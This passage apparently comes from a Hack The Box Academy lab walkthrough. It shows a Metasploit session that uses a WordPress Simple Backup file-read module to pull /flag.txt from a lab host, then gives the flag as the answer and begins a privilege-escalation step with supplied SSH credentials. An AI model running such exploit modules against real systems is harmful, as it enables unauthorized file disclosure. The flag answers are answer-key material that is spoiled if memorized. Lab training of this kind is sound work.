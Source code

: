 ```
┌─[eu-academy-2]─[10.10.15.88]─[htb-ac413848@pwnbox-base]─[~]
└──╼ [★]$ msfconsole -q

msf6 > use auxiliary/scanner/http/wp_simple_backup_file_read
msf6 auxiliary(scanner/http/wp_simple_backup_file_read) > set RHOSTS 209.97.189.80
RHOSTS => 209.97.189.80
msf6 auxiliary(scanner/http/wp_simple_backup_file_read) > set RPORT 30939
RPORT => 30939
msf6 auxiliary(scanner/http/wp_simple_backup_file_read) > set FILEPATH /flag.txt
FILEPATH => /flag.txt
msf6 auxiliary(scanner/http/wp_simple_backup_file_read) > exploit
[+] File saved in: /home/htb-ac413848/.msf4/loot/20220225124019_default_
209.97.189.80_simplebackup.tra_129973.txt
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
msf6 auxiliary(scanner/http/wp_simple_backup_file_read) > cat /home/htb-ac413848/.msf4/loot/20220225124019_default_
209.97.189.80_simplebackup.tra_129973.txt
[*] exec: cat /home/htb-ac413848/.msf4/loot/20220225124019
_default_209.97.189.80_simplebackup.tra_129973.txt

HTB{my_f1r57_h4ck}
```

It is important to note that students will most probably get a different file name which the `Metasploit` module created. Thus, they need to change it accordingly when attempting to concatenate/print its contents.

Answer: `HTB{my_f1r57_h4ck}`

# Privilege Escalation

## Question 1

### "SSH into the server above with the provided credentials, and use the '-p xxxxxx' to specify the port shown above. Once you login, try to find a way to move to 'user2', to get the flag in '/home/user2/flag.txt'."

Students first need to SSH into the spawned target machine using the credentials `user1:password1`:

Code: shell

```shell
ssh user1@STMIP -p STMPO
```

```
┌─[eu-academy-2]─[10.10.15.88]─[htb-ac413848@pwnbox-base]─[~]
└──╼ [★]$ ssh user1@139.59.175.51 -p 31509

<SNIP>
Password: 

Welcome to Ubuntu 20.04.1 LTS (GNU/Linux 4.19.0-17-cloud-amd64 x86_64)

<SNIP>

user1@gettingstartedprivesc-413848-767c4c8dff-mwwxb:~$
```
